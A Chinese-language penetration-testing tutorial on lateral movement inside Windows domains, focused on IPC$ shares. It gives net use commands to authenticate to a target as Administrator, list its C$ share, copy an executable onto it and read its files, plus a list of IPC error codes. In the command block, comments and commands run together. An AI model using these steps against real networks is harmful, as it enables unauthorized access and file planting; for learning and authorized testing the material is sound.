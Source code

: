 这篇文章介绍内网渗透中的横向移动。

在内网渗透中，当攻击者获取到内网某台机器的控制权后，会以被攻陷的主机为跳板，通过收集域内凭证等各种方法，访问域内其他机器，进一步扩大资产范围。通过此类手段，攻击者最终可能获得域控制器的访问权限，甚至完全控制基于Windows操作系统的整个内网环境，控制域环境下的全部机器。

[![img](https://minioapi.nerubian.cn/image/20250408145949478.png)](https://storage.tttang.com/media/attachment/2023/05/09/60d71934-7596-466c-8683-54c061df8749.png)

# [横向移动中的文件传输](https://tttang.com/archive/1890/#toc_)

### [通过文件共享-IPC](https://tttang.com/archive/1890/#toc_-ipc)

执行net share命令，可以获得Windows默认开启的网络共享，其中C$为C盘共享，ADMIN$为系统目录共享，还有一个IPC$共享。

[![img](https://minioapi.nerubian.cn/image/20250408150004108.png)](https://storage.tttang.com/media/attachment/2023/05/09/9d3c3d99-df3f-4d5b-ab37-3a0dc15b8cd6.png)

IPC（Internet Process Connection）是共享”命令管道”的资源，为了让进程间通信而开放的命令管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

实战中往往会建立IPC$连接，因为通过IPC$连接，不仅可以进行所有文件共享操作，还可以实现其他远程管理操作，如列出远程主机进程、在远程主机上创建计划任务或服务等。  
**建立IPC$连接需要具备以下两个条件：**

**①远程主机开启了IPC连接**

**②远程主机的139端口和445端口开放**

```
# IPC$ 连接 net use \\192.168.1.131\ipc$                    
# 建立空连接 net use \\192.168.1.131\ipc$ "password" /user:"Administrator"   
# 建立非空连接  # IPC$ 使用 net use                               
# 查看本机建立的连接(本机连接其他机器) net session                           
# 查看本机建立的连接(其他机器连接的本机)，需要administrator用户执行 net share                             
# 查看本地开启的共享 net share ipc$                        
# 开启ipc$共享 net share ipc$ /del                   
# 删除ipc$共享 net share admin$ /del                 
# 删除admin$共享 net share c$ /del                     
# 删除C盘共享 net use * /del                        
# 删除所有连接  
# IPC$ 连接建立之后的操作 dir \\192.168.1.131\c$                              
# 列出目标文件目录 copy C:\\Users\Administrator\Desktop\whatever.exe \\192.168.1.131\c$\aaa 
# 将文件复制到目标C盘aaa目录下 type \\192.168.1.131\c$\1.txt       
# 查看目标C盘下1.txt文件内容 net use h: \\192.168.52.138\c$              
# 磁盘映射，将目标的 C 盘映射到本地的 H 盘 net use h: /del                                             
# 删除磁盘映射
```



#### [建立 IPC 常见的错误代码](https://tttang.com/archive/1890/#toc_ipc)

`5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限  51：网络问题，Windows 无法找到网络路径 53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有 防火墙等问题 67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$ 1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除 1326：账号密码错误 1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况 2242：用户密码过期，目标有账号策略，强制定期更改密码`
